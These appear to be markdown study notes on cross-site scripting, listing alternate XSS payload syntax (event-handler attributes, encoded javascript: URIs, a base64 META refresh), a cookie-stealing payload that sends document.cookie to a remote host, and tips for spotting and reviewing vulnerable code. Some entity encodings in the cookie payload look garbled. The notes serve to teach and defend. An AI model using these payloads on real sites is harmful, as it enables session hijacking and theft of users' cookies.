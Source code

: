 
---


## what XSS is

### Alternate XSS Syntax

XSS Using Script in Attributes
- conducted with `<script>...</script>` tags.
- Other tags: `<body onload=alert('test1')>` 
- Onmouseover: `<b onmouseover=alert('Wufff!')>click me!</b>`
- Onerror: `<img alt="pic" src="https://url.to.file.which/not.exist" onerror=alert(document.cookie);>`

XSS Using Script Via Encoded URI Schemes
- to hide against web application filters, encode string characters,
- e.g.: `a=&\#X41 (UTF-8)`
- use it in IMG tags: `<IMG SRC=j&#X41vascript:alert('test2')>`

XSS Using Code Encoding
- encode script in `base64` and place it in META tag.
- This way get rid of `alert()` totally.
- `<META HTTP-EQUIV="refresh"CONTENT="0;url=data:text/html; base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg">`


One of the classic attacks:

getting access to “`document.cookie`” and sending it to a remote host.
- used the following in a form field entry instead of providing your name:
- `&lt;script;window.open#40;&quot;https://abc.com/getcookie.acookie=&quot;+document.cookie#41;&lt;/script&gt;`
- Should the app be vulnerable to XSS, the Java script entered (converted to HTML entities where appropriate—how fun!) will be run and you can obtain cookies from users accessing the page later


---

### what you can do with it

Recognize URL indicator of an XSS attempt:
- `https://IPADDRESS/′′;!- -′′<XSS>=&{()}`
- XSS attempts pop up all over the place in in all sorts of formats.



### How to Determine Vulnerable
- perform a `security review of the code`
- search for `all places where input from an HTTP request` could possibly make its way into the HTML output.
- `variety of different HTML tags can be used to transmit a malicious JavaScript`.
- Nessus, Nikto, and some other available tools can help scan a website for these flaws, but can only scratch the surface.
- If one part of a website is vulnerable, there is a high likelihood that there are other problems as well.
